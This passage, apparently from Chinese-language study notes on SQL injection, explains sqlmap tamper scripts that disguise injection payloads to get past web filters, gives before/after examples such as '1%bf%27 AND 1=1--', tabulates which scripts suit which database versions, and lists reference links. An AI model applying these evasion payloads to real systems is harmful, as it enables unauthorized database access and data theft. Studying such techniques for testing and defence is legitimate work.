作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符） 
使用脚本前：tamper('SELECT FIELD FROM%20TABLE') 
使用脚本后：%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545

unmagicquotes.py
适用数据库：ALL 
作用：用一个多字节组合%bf%27和末尾通用注释一起替换空格 
使用脚本前：tamper("1' AND 1=1") 
使用脚本后：1%bf%27 AND 1=1--

randomcomments.py
适用数据库：ALL 
作用：用注释符分割sql关键字 
使用脚本前：tamper('INSERT') 
使用脚本后：I/**/N/**/SERT
```


## 6x03 tamper适用的数据库类型&版本

(*) 可能适用于所有版本

(-) 不适用

| TAMPER                    | MySQL         | MSSQL      | Oracle | PostgreSQL  |
| ------------------------- | ------------- | ---------- | ------ | ----------- |
| apostrophemask            | *             | *          | *      | *           |
| apostrophenullencode      | -             | -          | -      | -           |
| appendnullbyte            | *             | *          | *      | *           |
| base64encode              | 4,5,5.5       | 2005       | 10g    | -           |
| between                   | 5.1           | -          | -      | -           |
| bluecoat                  | *             | *          | *      | *           |
| apostrophemask            | 9.0.3         | 20002005   | -      | 9.3         |
| charunicodeencode         | 4,5.0 and 5.5 | 2005       | 10g    | 8.3,8.4,9.0 |
| charencode                | *             | -          | -      | -           |
| commalessmid              | *             | -          | -      | -           |
| concat2concatws           | *             | *          | *      | *           |
| equaltolike               | *             | *          | *      | *           |
| greatest                  | < 5.1         | -          | -      | -           |
| halfversionedmorekeywords | 5.0 and 5.5   | -          | -      | -           |
| ifnull2ifisnull           | *             | *          | *      | *           |
| informationschemacomment  | 4,5.0,5.5     | 2005       | 10g    | 8.3,8.4,9.0 |
| lowercase                 | 5             | -          | -      | -           |
| modsecurityversioned      | 5             | -          | -      | -           |
| modsecurityzeroversioned  | *             | *          | *      | *           |
| multiplespaces            | *             | *          | *      | *           |
| nonrecursivereplacement   | *             | *          | *      | *           |
| overlongutf8              | 5.1.56,5.5.11 | 2000, 2005 | N/A    | 9           |
| percentage                | 4, 5.0,5.5    | 2005       | 10g    | 8.3,8.4,9.0 |
| randomcase                | *             | *          | *      | *           |
| randomcomments            | *             | *          | *      | *           |
| securesphere              | 4,5.0,5.5     | 2005       | 10g    | 8.3,8.4,9.0 |
| space2comment             | -             | -          | -      | -           |
| space2dash                | 4.0,5.0       | -          | -      | -           |
| space2hash                | >= 5.1.13     | -          | -      | -           |
| space2morehash            | -             | 2000, 2005 | -      | -           |
| space2mssqlblank          | *             | *          | -      | -           |
| space2mssqlhash           | *             | *          | *      | *           |
| space2plus                | 4,5.0,5.5     | 2005       | 10g    | 8.3,8.4,9.0 |
| space2randomblank         | -             | *          | -      | -           |
| sp_password               | *             | *          | *      | *           |
| symboliclogical           | *             | *          | *      | *           |
| unionalltounion           | *             | *          | *      | *           |
| unmagicquotes             | 4, 5.0,5.5    | 2005       | 10g    | 8.3,8.4,9.0 |
| uppercase                 | *             | *          | *      | *           |
| varnish                   | *             | -          | -      | -           |
| versionedkeywords         | >=5.1.13      | -          | -      | -           |
| versionedmorekeywords     | *             | *          | *      | *           |
| xforwardedfor             | *             | *          | *      | *           |

 


参考：

1、SELECT 1,2,3...的含义及其在SQL注入中的用法

	https://blog.csdn.net/weixin_44840696/article/details/89166154

2、sqli-labs参考-注入天书.pdf

3、sql注入中关于--+的一点探索

	https://www.cnblogs.com/laoxiajiadeyun/p/10274780.html

4、

https://www.freebuf.com/sectool/179035.html  #SqlMap 1.2.7.20 Tamper详解及使用指南
https://blog.csdn.net/qq_34444097/article/details/82717357  #sqlmap的使用 ---- 自带绕过脚本tamper

https://blog.csdn.net/qq_34398519/article/details/89055910 #SQLMap中tamper的简介